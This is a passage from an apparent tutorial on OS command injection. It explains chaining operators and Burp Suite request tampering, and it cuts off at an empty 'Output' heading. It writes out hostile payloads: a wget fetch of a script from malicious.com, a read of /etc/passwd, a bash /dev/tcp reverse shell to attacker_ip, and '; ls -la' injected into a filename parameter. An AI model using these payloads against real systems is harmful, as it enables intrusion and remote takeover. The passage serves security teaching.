 If the first command succeeds, the attacker can execute a second command to write a message or even create a new file.

**Using the OR Operator**

If the application fails to sanitize input adequately, the attacker might try:

```bash
cat /var/www/html/babel_intro.html || ls -la
```

The `ls -la` command runs only if the first command fails. If the filename is incorrect, the attacker can still gather information about the directory contents.

#### Breaking the Input

To force the application to execute multiple commands regardless of success, the attacker can manipulate the input like this:

```bash
cat /dev/null; (sleep 5 && wget http://malicious.com/babel_script.sh)
```

In this example, the attacker uses a command to create a delay (`sleep 5`) before downloading a malicious script from an external server. This could allow the attacker to gain further access or deploy malware.

#### Using Subshells

A more sophisticated attack might use subshells to execute commands in a separate environment:

```bash
cat /etc/passwd; (bash -i >& /dev/tcp/attacker_ip/4444 0>&1)
```

This command uses a reverse shell to connect back to an attacker’s machine, allowing the attacker to execute arbitrary commands on the compromised system.

When testing for command injection vulnerabilities, you might observe or manipulate requests like the following in Burp Suite:

#### Initial Request

```bash
GET /language_viewer.php?filename=babel.txt HTTP/1.1
Host: babelsite.com
```

#### Injected Payload in Burp Suite

In the request editor, an attacker could modify the `filename` parameter to include their malicious payload:

```bash
GET /language_viewer.php?filename=babel.txt; ls -la HTTP/1.1
Host: babelsite.com
```

#### Output
